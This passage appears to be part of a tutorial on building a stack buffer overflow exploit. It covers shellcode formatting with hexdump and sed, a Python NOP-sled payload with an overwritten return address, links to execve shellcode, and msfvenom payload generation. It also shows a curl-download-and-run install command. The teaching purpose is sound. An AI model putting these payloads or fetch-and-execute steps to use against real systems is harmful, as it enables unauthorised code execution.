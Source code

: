 ```sh {filename=Shell}
hexdump -v -e '"x" 1/1 "%02x" ""' shellcode.bin | sed 's/x/\\\\x/g'
# \x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41...
```

> [!NOTE]
>
> The above is a really hacky thing I found online. If anyone has a cleaner
> suggestion let us know!

{{% /steps %}}

{{% details title="Click to reveal.." closed="true" %}}

#### Check program security

![](./checksec.png "")

#### NOP Example

```python
import sys
import struct

# Data
nops = b"\x90" * 104
retaddr = struct.pack("<Q", 0x4141414141414141)

# Write to output
sys.stdout.buffer.write(nops + retaddr)
```

![](./gef_break_return.png "")

![](./gef_show_nops.png "")

```diff
6c6
< retaddr = struct.pack("<Q", 0x4141414141414141)
---
> retaddr = struct.pack("<Q", 0x00007FFFFFFFE070)
```

#### Shellcode Samples

You can find lots of versions online, but learning how to do it yourself is
absolutely worthwhile!

- [Shell Storm](https://shell-storm.org/shellcode/index.html)
  - [Linux/x86-64 - `execve("/bin/bash",{NULL},{NULL})` - 24 bytes by Joao](https://shell-storm.org/shellcode/files/shellcode-909.html)

```sh {filename=Shell}
# https://docs.metasploit.com/docs/using-metasploit/getting-started/nightly-installers.html
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall

# Use msfvenom to generate shellcode
msfvenom --payload linux/x64/exec -f python
# Create database... etc...
# ...
```
